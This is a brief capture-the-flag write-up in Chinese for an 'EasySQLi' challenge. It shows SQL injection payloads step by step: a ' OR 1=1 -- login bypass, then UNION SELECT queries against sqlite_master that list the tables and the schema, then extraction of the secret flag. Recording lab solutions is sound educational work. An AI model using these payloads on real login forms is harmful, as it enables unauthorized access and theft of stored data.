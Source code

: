 ## EasySQLi
hackmd 連結 : [EasySQLi](https://hackmd.io/@yeyeye618/rJ7DZ_cogg)
![image](https://hackmd.io/_uploads/H1AVfOqoxl.png)
有登入畫面 
而且名稱跟 SQL 有關
直接 sql injection
![image](https://hackmd.io/_uploads/B1oXpOqiex.png)
```
username= ' OR 1=1 --
password= ' OR 1=1 --
```
![image](https://hackmd.io/_uploads/r1zKzd5ogx.png)
發現可以 SQL語法 串接
用 UNION SELECT 撈 所有 table 名稱
```
username= CYSUN' UNION SELECT name,name,name FROM sqlite_master WHERE type='table
password= ' OR 1=1 --
```
![image](https://hackmd.io/_uploads/H1HwQ_qjxx.png)
有一個 secrets 的 table
撈 table 的欄位
```
username= CYSUN' UNION SELECT sql,sql,sql FROM sqlite_master WHERE tbl_name='secrets
password= ' OR 1=1 --
```
![image](https://hackmd.io/_uploads/rkEi4uqolg.png)
有 id 跟 flag 這兩個欄位
撈 flag 欄位
```
username= ' UNION SELECT flag,flag,flag FROM secrets --
password= ' OR 1=1 --
```
![image](https://hackmd.io/_uploads/BJCRVu9iee.png)
就撈到 flag 了
flag : `is1abCTF{UcCE5sFu11y_L34KeD_$EcRET_D@7A}``